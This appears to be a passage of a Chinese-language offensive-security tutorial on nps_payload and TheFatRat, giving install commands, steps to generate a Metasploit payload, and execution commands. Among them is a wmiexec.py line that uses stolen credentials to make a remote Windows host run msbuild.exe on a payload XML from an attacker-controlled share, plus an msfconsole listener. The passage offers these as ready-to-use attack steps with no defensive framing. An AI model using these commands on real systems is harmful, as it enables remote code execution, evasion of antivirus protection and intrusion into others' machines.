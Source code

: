 ### 下载安装

```
git clone  https://github.com/trustedsec/nps_payload
cd nps_payload/
pip install -r requirements.txt

```

### 生成  

```
python nps_payload.py

选择1生成msf类型payload

选择payload类型

设置IP和端口

生成

```

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSEN8oxwtibOqsH1Zia3VPxAyczPx97sFHvLP3U4SgFC6XiaWZF0vpYAice1MSPc1EIkR6mOde7dpK7vEg/640?wx_fmt=png)  

### 执行  

```
1. 本地加载执行:
- %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe <folder_path_here>\msbuild_nps.xml

2. 远程文件执行:

wmiexec.py <USER>:'<PASS>'@<RHOST> cmd.exe /c start %windir%\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\<attackerip>\<share>\msbuild_nps.xml

```

msf 监听  

```
msfconsole -r msbuild_nps.rc

```

TheFatRat  

------------

### 下载安装

```
git clone https://github.com/Screetsec/TheFatRat
cd TheFatRat
chmod +x setup.sh
./setup.sh

```
